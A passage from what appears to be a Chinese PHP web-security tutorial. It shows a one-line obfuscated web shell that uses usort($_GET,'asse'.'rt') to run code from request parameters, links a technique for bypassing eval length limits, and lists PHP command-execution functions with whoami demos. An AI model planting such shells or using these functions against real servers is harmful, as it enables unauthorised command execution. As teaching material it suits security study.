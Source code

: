 只有在php5.6以上环境才可使用，小于php7.0

原因在此查看

eval长度限制绕过 && PHP5.6新特性

https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html

关于...$_GET是php5.6引入的新特性。即将数组展开成参数的形式。

![Snipaste_2018-10-21_16-55-39.png](https://whitecell.io/upload/attach/201810/151_G59T9569WWWYRRH.png "Snipaste_2018-10-21_16-55-39.png")

shell_2

下面这种写法只在php7.0版本以下可以使用。

```txt
<?php

error_reporting(0);

//?1=1+1&2=phpinfo();
usort($_GET,'asse'.'rt');
```

![Snipaste_2018-10-21_16-59-56.png](https://whitecell.io/upload/attach/201810/151_B59CZGJG9W8YNPM.png "Snipaste_2018-10-21_16-59-56.png")

---

## 命令执行

常见命令执行函数

* system()

* passthru()

* exec()

* shell_exec()

* `反引号

* ob_start()

* mail函数+LD_PRELOAD执行系统命令

### system()

```php
➜ ~ php -r "system('whoami');"
root
```

### passthru()

```php
➜ ~ php -r "passthru('whoami');"
root
```
